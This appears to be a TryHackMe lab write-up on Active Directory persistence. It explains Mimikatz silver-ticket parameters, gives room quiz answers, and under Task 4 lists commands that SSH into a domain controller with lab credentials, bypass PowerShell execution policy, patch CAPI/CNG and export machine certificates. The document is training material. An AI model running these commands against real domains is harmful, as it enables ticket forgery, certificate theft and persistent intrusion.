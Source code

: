 Parameters explained:

- **/admin** - The username we want to impersonate. This does not have to be a valid user.  
- **/domain** - The FQDN of the domain we want to generate the ticket for.  
- **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
- **/sid** -The SID of the domain we want to generate the ticket for.
- **/target** - The hostname of our target server. Let's do THMSERVER1.za.tryhackme.loc, but it can be any domain-joined host.  
- **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of THMSERVER1$. The $ indicates that it is a machine account.  
- **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.  
- **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

> krbtgt

> golden ticket

> silver ticket

> 10

## Task 4

```bash
# provided

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

ssh $adminUser@$AD@thmdc.$AD
```

```powershell
# THMDC Admin

powershell.exe -ep bypass

mkdir f4u
cd f4u

C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

```powershell
# mimikatz

crypto::certificates /systemstore:local_machine # Enum certs

privilege::debug

# Allow certificate export without private key
crypto::capi
crypto::cng # If you get an error, don't worry, it just means someone else executed the patch before you. With these services patched, we can use Mimikatz to export the certificates:

crypto::certificates /systemstore:local_machine /export

exit
```
